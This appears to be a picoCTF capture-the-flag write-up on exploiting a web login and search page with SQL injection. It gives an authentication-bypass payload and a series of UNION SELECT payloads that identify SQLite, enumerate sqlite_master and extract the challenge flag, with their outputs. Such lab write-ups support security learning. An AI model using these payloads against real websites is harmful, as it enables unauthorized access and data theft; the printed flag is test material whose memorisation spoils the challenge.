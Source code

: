 ## Description
Can you find the flag on this website. Try to find the flag here.

## Solution

we are given a login page, providing username and password fields.
by entering user, pass will show us the sql query made to server:


```
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```

We can bypass login page simply by below payload:
```
admin' or 1=1 ;--
```

Now we will be redirected to new page with a search box which we can input city names and get related results.

if we input following input, we will get all results at once:
```
a' or 1=1 --
```
So it is sql injection. let's try some queries and get their results.

```
query:  ' union select 1,2,3 --
result: 

City 	Address 	Phone
1	2	3
```

let's find out sql database model (I tried different values like `VERSION, @@version, verion()` But none worked except below):
```
query:	a' union select sqlite_version(),2,3 --

City 	Address 	Phone
3.31.1	2	
```
So database is sqlite, and version of 3.31.1. Now let's get list of table names, and ... to get the flag.

```
query:	a' union select name, 2, 3 FROM sqlite_master WHERE type='table' -- 


City 	Address 	Phone
hints	2	3
more_table	2	3
offices	2	3
users	2	3
```

```
query: 	a' union SELECT sql, 2, 3 FROM sqlite_master WHERE type='table' AND name='more_table' --

City 	Address 	Phone
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)	2	3
```

```
a' union select flag, 2, 3 from more_table --

City 	Address 	Phone
If you are here, you must have seen it	2	3
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}	2	3
```